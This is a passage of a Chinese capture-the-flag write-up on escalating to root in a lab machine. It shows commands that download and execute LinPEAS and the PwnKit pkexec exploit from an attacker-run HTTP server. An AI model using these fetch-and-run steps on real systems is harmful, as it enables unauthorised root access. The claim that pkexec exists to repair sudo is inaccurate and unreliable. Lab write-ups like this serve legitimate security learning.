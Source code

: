 &emsp;

2. **接下來就要找 `root flag` ，換句話說就是要找到如何提權(如果不能提權可能就要回到爆破 hash 那邊)。在漏洞研究和利用的 step 8 ，有找到 mysql 的設定檔，包含 `MYSQL_ROOT_PASSWORD` ，當時因為還沒登入靶機，所以並沒有用到 mysql 的環境設定，既然現在成功登入靶機了就用 root 權限登入 mysql 看看，會發現是不行的。轉而用 step 8 設定裡的 `DB` 一般使用者 `sql_user` 也不行**

- ![image](https://hackmd.io/_uploads/Hyp1rXm-el.png)
- ![image](https://hackmd.io/_uploads/B1mDHmQWeg.png)

&emsp;

3. **在 MySQL 無法登入的情況下，我打算直接引入 `LinPEAS` 這個工具，此工具主要是用來對 Linux 主機進行提權，步驟如下**

   - (1) **使用 `sudo apt install peass` 從 kali 官方下載 `linpeas.sh` 這個 `shell script`**
   - **完成後可以用 `linpeas -h` 檢查一下(檢查時會直接跳轉到 `linpeas` 所在的路徑)**
   - ![image](https://hackmd.io/_uploads/SJCMfKXWxl.png)
   - (2) **回到原本工作的資料夾，把 `linpeas.sh` 複製一份到當前資料夾，並且用 python 架一個 `HTTP server` 準備讓靶機下載 `linpeas.sh`**
   - ![image](https://hackmd.io/_uploads/H1gSmKQZlg.png)
   - ![image](https://hackmd.io/_uploads/Bka6ouQZel.png)
   - (3) **在登入靶機前先用 `ip a` 查看自己的 ip 位址，主要觀察 `tun0` ，
     `eth0` 是本地 NAT 用的**
   - ![image](https://hackmd.io/_uploads/SyT4puXbgx.png)

&emsp;

4. **登入靶機後，直接下 `wget http://10.10.14.64:8000/linpeas.sh` 就能下載 local 端的 `linpeas.sh` 。先下 `ls -al` 或是 `ll` 檢查一下權限，會發現 `linpeas.sh` 不具有可執行權限，手動使用 `chmod +x linpeas.sh` 就能夠補上可執行權限了。完成後直接執行 `linpeas.sh` 就能看到有哪些可能可以提權的方法或路徑**

- ![image](https://hackmd.io/_uploads/SyDGVK7-gx.png)
- ![image](https://hackmd.io/_uploads/H1T8NFXWle.png)

&emsp;

5. **由於 `linpeas.sh` 的執行結果非常長，如果能重點分析能提高效率，所以這裡我直接問了 chatgpt**

- ![image](https://hackmd.io/_uploads/HkpaNIVZgl.png)
- ![image](https://hackmd.io/_uploads/rygWB8Ebgg.png)
- ![image](https://hackmd.io/_uploads/ryY4BINbxl.png)
- ![image](https://hackmd.io/_uploads/rkHKHUVZgl.png)

&emsp;

6. **上面的區塊中還有一些區塊沒有提到，像是 `Executing Linux Exploit Suggester` ，而紅框則是因為我在 `SUID` 的 section 發現了這個 `pkexec` ，於是我找了一下關於 `pkexec` 的資料。這個指令本來是用來修復 `sudo` 指令，但修復時自然不可避免的會用到 `root` 權限，而這讓攻擊者有機會利用 `pkexec` (利用 `root` 權限)執行任意程式碼**

- ![image](https://hackmd.io/_uploads/r1K7ILN-gl.png)
- ![image](https://hackmd.io/_uploads/rJzw_LEWel.png)

&emsp;

7. **方法與前面的步驟很像，先把別人寫好的 exploit 編譯好，再利用 python 架一個 `HTTP server` ，最後使用 `wget` 將 payload 下載到靶機**

- **參考資料：https://ithelp.ithome.com.tw/articles/10365168**
- **PwnKit source：https://github.com/ly4k/PwnKit**
- ![image](https://hackmd.io/_uploads/B1pUR84Zee.png)
- **檢查時會發現這個 repo 的 owner 已經幫我們編譯好了，那只需要架 `HTTP server` 在使用 `wget` 下載在靶機就可以了**
- ![image](https://hackmd.io/_uploads/Bk771PVbll.png)
- **下載後會發現不具有執行權限，所以要多跑 `chmod +x PwnKit`**
- ![image](https://hackmd.io/_uploads/HkUh1PEWgx.png)
- ![image](https://hackmd.io/_uploads/S1_ZlPEblg.png)
